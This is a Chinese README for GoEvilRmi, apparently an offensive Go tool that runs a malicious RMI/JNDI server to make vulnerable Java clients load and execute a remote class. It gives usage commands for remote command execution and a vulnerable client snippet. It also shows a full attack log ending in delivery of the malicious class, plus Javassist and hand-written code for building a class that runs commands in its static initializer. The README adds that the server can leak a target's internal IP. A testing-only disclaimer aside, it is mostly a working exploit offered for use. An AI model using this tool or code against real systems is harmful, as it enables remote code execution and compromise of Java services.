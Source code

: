 ﻿# GoEvilRmi利用工具
请注意仅在测试应用安全性时使用，勿使用于任何非法活动
# 介绍
这是一个使用golang来编写个rmi利用工具，它允许在没有Java环境的机器上运行，且单文件执行，较为方便。

# 使用说明
## 命令执行示例
命令执行用的是 Runtime来执行，因此在执行复杂命令时请自行编译class，后面再把这个改好点，todo一下。
```shell
./GoEvilRmi_linux_amd64 -i [本机的目标能访问到的IP地址] -c [要执行的命令]
```
假设客户端代码如下：
```java
package org.example;

import javax.naming.Context;
import javax.naming.InitialContext;

public class Main {
        public static void main(String[] args) throws Exception {
            // 我测试时使用的Java版本需要设置该值
            System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
            // create a new JNDI context
            Context ctx = new InitialContext();
            // lookup our resource
            ctx.lookup("rmi://192.168.229.3:6666/test");
            // close the context
            ctx.close();
        }
}
```
执行后程序输出如下：
```
root@maxubuntu-virtual-machine:~# ./GoEvilRmi_linux_amd64 -i 192.168.229.3 -c calc
2023/04/13 15:19:26 【控制台】 : 请使用 rmi://192.168.229.3:6666/test 来进行使用
2023/04/13 15:19:31 【RMI服务】 : 接收到请求，来自于IP：192.168.229.1:50382
2023/04/13 15:19:31 【RMI服务】 : 向客户端发送了IP地址和端口
2023/04/13 15:19:31 【RMI服务】 : 接收到客户端的内网IP地址
2023/04/13 15:19:31 【RMI服务】 : 192.168.1.3: 0
2023/04/13 15:19:31 【RMI服务】 : 接收到rmi名称 [test]
2023/04/13 15:19:31 【RMI服务】 : 已经向客户端发送Remote序列化对象，后续将交由[7777]端口的Reomte服务进行交互
2023/04/13 15:19:31 【Remote服务】 : 接收到请求，来自IP：192.168.229.1:50383
2023/04/13 15:19:31 【Remote服务】 : 向客户端发送了IP地址和端口
2023/04/13 15:19:31 【Remote服务】 : 接收到客户端上传的内网IP地址
2023/04/13 15:19:31 【Remote服务】 : 192.168.1.3:
2023/04/13 15:19:32 【Remote服务】 : 收到客户端获取序列化数据的请求
2023/04/13 15:19:32 【Remote服务】 : 已经向客户端发送第一次序列化数据
2023/04/13 15:19:33 【Remote服务】 : 收到客户端确认包
2023/04/13 15:19:33 【Remote服务】 : 已经向客户端发送第二次序列化数据，客户端即将加载远程类，交由[7777]端口的http服务进行交互
2023/04/13 15:19:33 【HTTP服务】 : 收到请求，来自IP：192.168.229.1:50386
2023/04/13 15:19:33 【HTTP服务】 : 目标Java版本为：Java/1.8.0_151
2023/04/13 15:19:33 【HTTP服务】 : 已经向目标发送恶意class，攻击流程完成。
```
经测试，当高版本的trustURLCodebase未开启时，可以获取目标的内网IP。

## 自定义加载类
```shell
./GoEvilRmi_linux_amd64 -i [本机的目标能访问到的IP地址] -f [class文件路径]
```
该方法可以指定目标需要加载的远程类，文件名必须使用 类名.xxx 的形式(xxx为任意字符)。在static代码块中编写要执行的Java代码即可，可以使用Javassit来生成恶意类：
```java
        ClassPool pool = ClassPool.getDefault();
        // 创建一个新类，继承自AbstractTranslet
        CtClass cc = pool.makeClass("Evil", pool.get(AbstractTranslet.class.getName()));
        // 添加一个静态代码块
        cc.makeClassInitializer().insertBefore("Runtime.getRuntime().exec(\"calc\");");
        cc.writefile();
```

也可以手动编写
```java
import java.io.IOException;

public class M4x {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }    
}
```
编译
```shell
javac M4x.java
```
使用
```shell
./GoEvilRmi_linux_amd64 -i 192.168.229.3 -f M4x.class
 ```
